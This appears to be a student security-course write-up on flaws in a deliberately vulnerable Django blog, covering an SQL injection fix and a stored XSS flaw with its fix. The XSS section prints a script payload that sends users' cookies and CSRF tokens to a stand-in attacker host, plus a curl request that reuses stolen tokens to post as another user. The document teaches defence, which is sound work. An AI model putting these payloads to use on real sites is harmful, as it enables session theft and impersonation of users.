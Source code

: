 ## Flaw 1: Fixing the SQL injection

Instead of using raw SQL to perform the search one should use an ORM or escape the input used for the searching. Since this app is made with Django, the ORM should be used.

The fix can be seen in the following commit: https://github.com/vastus/cybsec21-project1/blob/7355ba0c02171a1833733d8dfd6e1706be61d637/project1/blog/views.py#L25.

---

FLAW 2:
https://github.com/vastus/cybsec21-project1/blob/0d6dd7cf68128481a71d8fe1c617648ea5e75d03/project1/blog/templates/blog/posts/show.html#L68

## Flaw 2: A7:2017-Cross-Site Scripting (XSS)

The blog allows registered users to comment on posts. The comment form includes a hidden input field that's named `current_user_id` which the application uses to figure out who's the commenter. An attacker could alter the value of this field to impose commenting as someone else.

It's possible to inject `<script>` tags to the comment since the developers of the blog wanted to allow users to input their own markdown or styles to the comments but without further inspection this of course allows XSS attacks as well.

An attack might occur when after the attacker has registered and logged in to the site and they visit a post and comment on the post with the following comment body:

```
Interesting read...

<script>
const csrfmiddlewaretoken = document.querySelector('input[name=csrfmiddlewaretoken]').value;
const data = {cookie: document.cookie, csrfmiddlewaretoken};
fetch('https://h4x.or:1337/csrf-tokens', {method: 'POST', body: JSON.stringify({data})});
</script>
```

Given that the attacker has set up the server where the POST request is sending the CSRF token they can then use the token and another user ID to comment on posts as someone else.

An example request to exploit the vulnerability:

```
curl 'http://blog/posts/1/comments' \
     -X POST -H 'Content-Type: application/x-www-form-urlencoded' \
     -H 'Cookie: csrftoken=$CSRF_TOKEN_FROM_COOKIE_PAYLOAD' \
     --data-raw 'csrfmiddlewaretoken=$CSRF_MIDDLEWARE_TOKEN_FROM_PAYLOAD&comment_user_id=1&comment_body=holup'
```

## Flaw 2: Fixing the XSS weakness

First of all the application should figure out the current user from the session instead of getting it from the hidden input field. All user input should be considered unsafe. The way that the comment body is rendered needs to be changed from safe to unsafe, so that the browser doesn't interpret the HTML tags (e.g. `<script>`).
